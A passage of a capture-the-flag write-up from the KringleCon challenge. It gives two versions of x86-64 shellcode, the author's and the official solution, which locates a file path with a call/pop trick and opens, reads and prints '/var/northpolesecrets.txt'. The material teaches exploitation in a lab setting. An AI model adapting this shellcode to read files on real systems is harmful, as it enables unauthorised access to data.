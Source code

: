 ```
; Get a reference to the string
call getfile
db '/var/northpolesecrets.txt',0
getfile:
pop rdi

; Call sys_open
mov rax,2
mov rsi,0
mov rdx,0

syscall

; Call sys_read on the file handle and read it into rsp
mov rdi,rax
mov rsi,rsp
mov rax,0
mov rdx,150
syscall

; Call sys_write to write the contents from rsp to stdout (1)
mov rax,1
mov rdi,1
mov rsi,rsp
mov rdx,150
syscall

; Call sys_exit
mov rax,60
mov rdi,0
syscall
```

After completing this, you see what we were after:
>"Secret to KringleCon success: all of our speakers and organizers, providing the gift of cyber security knowledge, free to the community."

...and apparently we could have cheated by putting `?cheat` in the URL, which yields the official solution:

```
; TODO: Get a reference to this
call bottom
db '/var/northpolesecrets.txt',0
bottom:

; TODO: Call sys_open
mov rax, 2 ; syscall (sys_open)
pop rdi ; filename
mov rsi, 0
mov rdx, 0
syscall

; TODO: Call sys_read on the file handle and read it into rsp
mov rdi, rax ; handle
mov rax, 0 ; syscall (sys_read)
mov rsi, rsp ; buffer
mov rdx, 138 ; length
syscall

; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rdx, rax ; length
mov rax, 1 ; syscall (sys_read)
mov rdi, 1 ; handle (stdout)
```